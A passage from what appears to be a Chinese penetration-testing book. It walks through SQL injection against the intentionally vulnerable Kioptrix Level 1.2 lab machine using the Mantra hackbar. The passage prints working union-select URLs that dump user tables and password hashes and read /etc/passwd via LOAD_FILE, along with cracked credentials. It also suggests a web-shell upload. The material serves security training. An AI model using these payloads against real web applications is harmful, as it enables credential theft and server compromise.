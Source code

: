 1.  在 Mantra 中使用 hackbar 输入以下 URL，然后单击**Execute**按钮：

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users-- 

```

1.  您应该看到用户名`admin`和密码`n0t7t1k4`。

1.  让我们看看如何获取其他信息。在 hackbar 中输入以下内容：[`kioptrix3.com/gallery/gallery.php?id=1`](http://kioptrix3.com/gallery/gallery.php?id=1)，然后单击**Execute**。

1.  现在将光标放在 hackbar 中[`kioptrix3.com/gallery/gallery.php?id=1`](http://kioptrix3.com/gallery/gallery.php?id=1)条目的末尾，添加一个空格，然后直接在 hackbar 上方单击**SQL** | **Union Select Statement**，在弹出的窗口中输入`6`，然后单击**OK**。单击 hackbar 上的**Execute**按钮，以验证 SQL 注入是否有效。

1.  现在，通过突出显示生成的查询并单击**SQL | MySQL | Basic Info Column**，将查询中的数字`2`替换为`2`，以便您的 URL 现在看起来像这样：[`kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,CONCAT_WS(CHAR(32,58,32),user(),database(),@@version),3,4,5,6`](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,CONCAT_WS(CHAR(32,58,32),user(),database(),@@version),3,4,5,6)。单击 hackbar 上的**Execute**，并查看结果。输出应包含以下信息：`root@localhost : gallery : 5.0.51a-3ubuntu5.4`。您已成功枚举了正在运行的用户、数据库名称和版本。

1.  此时，您可以使用任何典型的 SQL 注入技巧来枚举这个数据库。尝试运行不同的命令，比如[`kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,table_name,3,4,5,6 from information_schema.tables where table_schema=database()`](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,table_name,3,4,5,6%20from%20information_schema.tables%20where%20table_schema=database())，这将列出当前数据库中的所有表。

1.  我们已经可以使用常用的 SQL 注入代码访问服务器上的某些文件，比如[`kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6`](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,LOAD_FILE('/etc/passwd'),3,4,5,6)。这将列出服务器上的 passwd 文件。

1.  为了获取开发用户的帐户信息，我们可以使用[`kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,username,password,4,5,6 from dev_accounts`](http://kioptrix3.com/gallery/gallery.php?id=1%20UNION%20SELECT%201,username,password,4,5,6%20from%20dev_accounts)，这为我们提供了用户名`loneferret`的信息，密码哈希值为`5badcaf789d3d1d09794d8f021f40f0e`，以及用户`dreg`的密码哈希值为`0d3eccfb887aabd50f243b3f155c0f85`。我们可以尝试破解这些用户密码。成功破解密码将为您提供以下凭据：`dreg` - `Mast3r`和`loneferret` - `starwars`。

这些用户陷入了重复使用密码的陷阱。您现在可以通过从 BackTrack 到 Kioptrix 机器打开 SSH 会话来登录您的实验室中的 Kioptrix 1.2 机器。幸运的是，这些帐户不在 sudoers 列表中。现在我们需要提升其中一个帐户的权限。

### 注意

此时，您几乎已经获得了 Kioptrix Level 1.2 机器的 root 权限。花点时间四处看看服务器，尝试找出提升用户权限的方法。

一旦您使用 SSH 获得了 root 权限，通过网站上传一个 shell 到 Kioptrix Level 1.2 机器，再次挑战自己！有几种不同的方法可以实现这一点，如果遇到困难，可以参考网络上的许多攻略。

# 摘要

我们有机会真正开始构建我们的测试环境，设置 Kioptrix、pfSense、Muttilidae、HAProxy 等工具。在我们的实验室中使用这些工具有助于我们更好地理解我们正在测试的技术。最好的渗透测试人员具有丰富的 IT 经验，这样他们在测试和解释概念以及向客户解释控制措施时都能够充分利用。

我们还学会了如何使用工具如`lbd`来确定系统是否正在进行负载平衡，以及使用 Wafw00f 来寻找 Web 应用程序防火墙。熟能生巧，考虑到这一点，每一步都被定义得可以让您跟随并对技术充满信心，或者只是简单地更新您已经具有的重要技能。毕竟，在安全领域有很多需要记住的东西，很容易失去实践。
